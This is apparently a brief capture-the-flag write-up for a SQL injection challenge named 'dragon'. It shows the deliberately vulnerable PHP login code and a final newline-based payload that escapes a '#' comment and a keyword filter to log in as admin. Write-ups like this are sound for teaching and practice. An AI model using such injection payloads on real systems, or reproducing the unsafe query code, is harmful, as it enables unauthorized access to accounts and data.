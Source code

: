 ```sql

<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```
So what we give is just commented out as we can see here, but the comment statement works only in a single line, think of a way to bypass it..., maybe a new line?? Yes a newline will be able to bypass it

Final payload => pw='%0A and pw='123' or id='admin' -- ;

%0a coz we are sending it through a GET request.